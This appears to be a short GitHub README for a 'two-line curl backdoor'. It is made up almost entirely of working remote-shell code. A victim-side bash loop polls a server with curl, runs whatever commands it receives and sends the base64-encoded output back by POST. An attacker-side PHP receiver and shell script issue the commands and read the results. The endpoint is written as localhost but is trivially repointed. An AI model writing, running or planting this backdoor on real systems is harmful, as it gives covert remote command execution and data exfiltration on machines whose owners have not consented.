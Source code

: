 # Two_lines_curl backdoor

## Victim session

### connect_back.sh
```sh
while true ; do sleep 1 ; cmd=$(curl -s 'http://127.0.0.1:3000/'|grep .) && ret=$(echo "$cmd"|bash|base64 -w0) && curl -s -X POST -d "d=$ret" "http://127.0.0.1:3000/get.php" ; done
```

## Attacker session

### get.php
```php
<?php file_put_contents("result.txt",$_POST["d"]); ?>
```

### server.sh
```sh
while true ; do printf "$ " ; printf "" > result.txt ; read cmd ; echo "$cmd" > index.html ; while true ; do grep -sq . result.txt && break ; done ; printf "" > index.html ; base64 -d result.txt ; done
```

